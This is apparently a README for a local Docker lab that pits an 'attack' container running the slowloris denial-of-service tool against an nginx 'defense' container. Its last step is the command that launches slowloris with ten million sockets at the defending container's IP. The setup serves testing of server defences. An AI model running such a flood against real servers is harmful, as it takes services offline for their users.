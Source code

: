 # slowloris-test

## 1. Pull docker containers for test:
```
docker pull ekleziast/nginx_defense
```
```
docker pull ekleziast/nginx_attack
```
## 2. Run an attacking and defending containers:
```
docker run --name nginx_defense -d -p 80:80 ekleziast/nginx_defense
```
```
docker run --name nginx_attack -d -p 81:80 ekleziast/nginx_attack
```
## 3. Get IP address defending container:
```
docker inspect nginx_defense | grep IPAddress
```
## 4. Run next command to attack the container
```
docker exec -ti nginx_attack slowloris {ip_address_nginx_defense_container} -s 10000000
```
